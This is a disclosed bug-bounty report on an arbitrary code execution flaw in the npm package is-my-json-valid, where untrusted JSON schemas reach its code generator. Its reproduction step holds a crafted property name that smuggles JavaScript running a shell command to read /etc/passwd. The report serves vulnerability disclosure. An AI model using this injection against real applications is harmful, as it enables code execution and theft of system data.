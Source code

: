 # Arbitrary code execution via untrusted schemas in is-my-json-valid

## Report Details
- **Report ID**: 894308
- **URL**: https://hackerone.com/reports/894308
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-09T08:14:52.148Z
- **Disclosed**: 2020-07-31T17:14:47.733Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an arbitrary code execution vulnerability in `is-my-json-valid`.
It allows to execute arbitrary code if an attacker-controlled schema is passed to `is-my-json-valid`.

The module Readme doesn't say anything about the risks of untrusted schemas, so I by default assume that this is applicable.
If it's not applicable, please place a warning in the readme that users should never use untrusted schemas.

# Module

**module name:** is-my-json-valod
**version:** 2.20.0
**npm page:** `https://www.npmjs.com/package/is-my-json-valid`

## Module Description

> A JSONSchema validator that uses code generation to be extremely fast.

## Module Stats

1 517 862 weekly downloads

# Vulnerability

## Vulnerability Description

See steps to reproduce.

The problem is in `formatName` function.

## Steps To Reproduce:

```js
const validator = require('is-my-json-valid')
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
var validate = validator(schema);
validate({})
```

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Executing arbitrary js code and/or shell commands if the schema is attacker-controlled (e.g. user supplies JSON with a schema).

## Attachments
No attachments

